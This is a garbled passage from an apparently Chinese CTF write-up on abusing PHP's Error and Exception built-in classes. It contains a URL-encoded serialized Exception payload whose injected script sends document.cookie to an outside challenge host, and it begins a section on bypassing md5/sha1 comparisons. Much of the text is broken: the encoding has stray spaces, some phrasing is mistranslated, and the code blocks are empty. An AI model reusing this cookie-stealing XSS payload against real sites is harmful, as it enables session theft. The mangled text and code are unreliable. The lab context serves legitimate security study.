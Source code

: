 `PHP`

``

    
    
    1  
    

|

    
    
    /?yds_is_so_beautiful=O% 3 A9% 3 A% 22例外% 22 % 3 A7% 3 A% 7 Bs% 3 A10% 3 A% 22 % 00 % 2 A% 00消息% 22 % 3 Bs% 3 A109 3 A% 22 % 3 Cscript% 3 Ewindow.open% 28 % 27 http% 3 A% 2 F% 2 Fde28dfb3-f224 -48d4-b579-f1ea61189930.node3.buuoj.cn% 2 F% 3 F% 27 % 2 Bdocument.cookie% 29 % 3 B% 3 C% 2 Fscript% 3 E% 22 % 3 Bs% 3 A17% 3 A% 22 % 00异常% 00字符串% 22 % 3 Bs% 3 A0% 3 A% 22 % 22 % 3 Bs% 3 A7% 3 A% 22% 00 % 2 A% 00代码% 22 % 3 Bi% 3 A0% 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00文件% 22 % 3 Bs% 3 A18% 3 A% 22 % 2 Fusercode% 2 Ffile.php% 22 % 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00线% 22 % 3 Bi% 3 A2% 3 Bs% 3 A16% 3 A% 22 % 00例外% 00迹线% 22 % 3 Ba% 3 A0% 3 A% 7 B% 7 Ds% 3 A19% 3 A% 22 % 00例外% 00前一个 % 22 % 3 BN% 3 B% 7 D  
      
  
---|---  
  
`  
`

`执行后，得到flag就在cookie中：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084242.png)`

# `使用错误/异常内置类绕过比较比较`

`在本书中，我们已经认识了错误和异常这两个 PHP 内置类，但对他们妙用的只是 XSS，还可以通过巧妙的构造绕过 md5() 和 sha1)
函数的比较。详细的说一下这个两个错误类了。`

## `错误类`

`错误是所有PHP内部错误类的基类，该类是在PHP 7.0.0中开始日期的。`

`类摘要：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10   
    11   
    12   
    13   
    14   
    15   
    16   
    17   
    18  
    